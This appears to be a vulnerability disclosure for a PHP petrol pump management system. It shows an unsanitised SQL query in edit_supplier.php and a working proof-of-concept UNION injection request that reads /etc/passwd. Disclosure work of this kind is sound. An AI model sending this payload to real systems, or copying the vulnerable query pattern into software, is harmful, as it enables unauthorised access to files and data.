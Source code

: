 ![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/160950031/b012dd34-b265-41ec-a28f-7e7f9c1aecd7)# SOURCECODESTER / Petrol pump management software - edit_supplier.php SQL Injection Auth Bypass

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>
> Russel James Avenido (https://github.com/lucishtml/lucishtml)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/17180/petrol-pump-management-software-free-download.html

## Affected Component
> /admin/edit_supplier.php

## Code
```php
  $stmt = $conn->prepare("SELECT * FROM `supplier` WHERE id='" . $_POST['id'] . "' ");
                                    $stmt->execute();
                                    $record = $stmt->fetchAll();
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /admin/edit_supplier.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 67

id=1'+UNION+SELECT+1,load_file('/etc/passwd'),3,4,version(),6,7--+-
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/160950031/9b8fd8bf-9f6c-4a4b-acb5-6f962ba5b6cb)
